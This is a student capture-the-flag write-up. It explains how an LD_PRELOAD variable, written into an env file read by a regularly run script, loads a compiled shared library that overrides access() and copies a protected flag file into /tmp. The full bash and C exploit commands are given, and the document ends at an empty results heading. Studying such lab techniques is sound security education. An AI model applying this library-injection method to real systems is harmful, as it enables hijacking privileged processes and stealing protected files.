

# **CTF Week #4**

**Objective:** Explore how environment variables affect the execution of programs on Linux systems.

**Targeted addresses**: http://ctf-fsi.fe.up.pt in port 4006 (`"nc ctf-fsi.fe.up.pt 4006"`)

## Challenge

In this challenge we needed to access to the server listening on port 4006 of the host ctf-fsi.fe.up.pt. After accessing the server we needed to take a close look at the available files and their permissions. In particular, we found code from a script that runs regularly on the server. The task was to subvert this script to obtain the hidden flag.

To find the flag we did the following steps:
* When we first enter the server we use the `ls` command to see the available files in the current directory (`flag_reader`).
* Then we execute the command `cat admin_note.txt` and discover that we have access to create folders in the `tmp` directory.

**File admin_note.txt**

```
flag_reader,                                                                                                                                                            
I locked you out of the temp folders.                                                                                
Told you before they are not to be used as permanent storage!                                                        
Hackers stole the flag by reading the files you left there!!!!!!                                                     
Finish your damn program ASAP!!!!! 
Tired of waiting for you to lock them out for good, you lazy !@%#                                                                                                                                                                        
 - The Admin    
```                         

* After that we execute the command `cat main.c` and discover that the program used the `access` function and where the `flag.txt` file was.

**Program main.c**

```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```
* After analysing the different files, we made the following explained code to discover the flag:

```bash
echo "LD_PRELOAD=/tmp/istoaqui.so.1.0.1" > env; #sets an environment variable "LD_PRELOAD" to point to a shared library file named "istoaqui.so.1.0.1" located in the "tmp" directory.

cd /tmp;

echo '#include <stdio.h>
#include <stdlib.h>

int access(const char *pathname, int mode){
system("/usr/bin/cat /flags/flag.txt > /tmp/resposta.txt");
return 0;
}' > qwe.c; #creates a "qwe.c" file in the "tmp" directory that executes a command that reads the content of the file "flag.txt" in the "flags" directory and saves the content in the "resposta.txt" file inside the "tmp" directory

gcc -fPIC -g -c qwe.c;
gcc -shared -o istoaqui.so.1.0.1 qwe.o -lc;

touch resposta.txt; #create the file "resposta.txt" where the flag in going to be written

chmod 777 resposta.txt; #changes the permissions of the "resposta.txt" file to have access to what is written inside of it

cat resposta.txt #show the content of the file "resposta.txt" (shows the flag)
```

**Result of executing the code**

